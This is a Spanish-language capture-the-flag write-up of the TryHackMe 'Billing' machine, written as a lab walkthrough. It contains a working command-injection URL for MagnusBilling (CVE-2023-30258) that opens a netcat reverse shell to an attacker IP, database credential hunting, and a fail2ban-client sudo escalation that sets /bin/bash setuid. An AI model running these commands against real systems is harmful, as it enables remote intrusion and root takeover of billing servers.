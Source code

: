 ```yaml
---
title: Billing
description: Write Up máquina Billing de Try Hack Me
published: true
date: 2025-05-06T15:50:35.080Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:23:46.118Z
---
```


# Billing
Bienvenido, va a encontrar el write up de la máquina Billing de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un comando básico de detección de puertos mediante nmap. Por lo tanto el comando será
```nmap
nmap -sT -Pn -sV {IP} 
```
IMAGEN 1

Podemos observar como tenemos 3 puertos abiertos.
- Puerto 22: Para conexiones SSH
- Puerto 80: Para conexiones http
- Puerto 3306: Para base de datos SQL

Vamos a hacer un dirb para analizar todos las entradas disponibles en el website.
```
dirb http://{IP}
```
IMAGEN 2 DIRB

Observamos que tenemos el robots.txt disponible, por lo que vamos a entrar para observar que hay.

IMAGEN ROBOTS

No hay mucha información, por lo que vamos a ir al index normal.

IMAGEN INDEX

Como podemos observar, parece un login clasico, sin embargo si nos fijamos en la ventana podemos observar el nombre del software que es MagnusBilling.

Si nos vamos al website oficial podemos observar información de que usa un Framework de Javascript llamado ExtJS 6.2.0.981, esta versión es vulnerable según el CVE-2023-30258.

## Explotación
Ahora que tenemos el plan, vamos a ejecutar el script para poder hacer la sell reversa. 

Lo primero que vamos a hacer es un puerto de escucha con:
```nc -lnvp 443```

Luego vamos a escribir lo siguiente, lo cúal consiste en una ejecución de comando de forma remota mediante el path.

'http://{IP máquina}/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP atacante}10.9.3.144 443 >/tmp/f;#'

IMAGEN 5

Tras esto vamos a comprobar que usuario somos, con un id básico.

IMAGEN ID

Como podemos observar somos el usuario asterisk


Ahora lo que haremos será dirigirnos a /var/www/html/mbilling, donde vamos a analizar el contenido del index.php, para ver que configuración usa para el login.

IMAGEN INDEX

Como podemos observar, el archivo que nos interesa es uno ubicado en /protected/config y se llama main.php, ya qu eparece que esta toda la información.


Mirando el archivo podemos observar que toma la configuración de login de otro archivo de configuración llamado res_config_mysql.conf, ubicado en /etc/asterisk/res_config_mysql.conf.

IMAGEN BBDD

Vamos a entrar en la base de datos para ver si podemos acceder al website.

Antes vamos a securizar la shell mediante:
```
python3 -c "iport pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

IMAGEN SECURIZAR

Tras esto vamos a acceder a la base de datos como ibamos a hacer en un principio.

Imagen dentro

Podemos observar como tenemos una base de datos llamada mbilling, es la que usaremos y dentro tenemos muchas tablas, pero la que nos interesa se llamada pkg_user. Por lo que vamos a hacer
```mysql
SELECT * FROM pkg_user;
```

Lamentableente la información es demasiado densa para entendar.

IMAGEN BASE DE DATOS SACADA

Deberiamos descifrar la contraseña para poder acceder al usuario, sin embargo para completar la máquina no es necesario.

## Finalización
Ahora vamos a comprobar si tenemos la flag en el Home del usuario, sin embargo podemos observar que no hay, por lo que vamos a comprobar usuarios existentes y buscaremos la flag ahí.


IMAGEN FLAG


Ahora vamos a comprobar que comandos podemos hacer mediante el uso de sudo -l

IMAGEN SUDO -L


Como podemos observar, somos capaces de ejecutar el comando fail2ban-client, como root sin problema. 
```
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
Este comando hace que cuando fail2ban detecte una IP que no debería entrar, su sentencia es que ejecute el comando /bin/bash, com root.

También es necesario autobanear nuestra popia IP, para ello ponemos
```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip {IP}
```

IMAGEN FAIL2BAN

Tras esto, podemos crear una nueva shell con
```bash
bash -p
```

IMAGEN BASH

Tras esto podemos finalizar con la máquina ya que nos detecta que nuestra IP está vetada y por lo tanto nos inicia sesión como root, nos dirigimos al directorio de root y podemos usar el website.
IMAGEN ROOT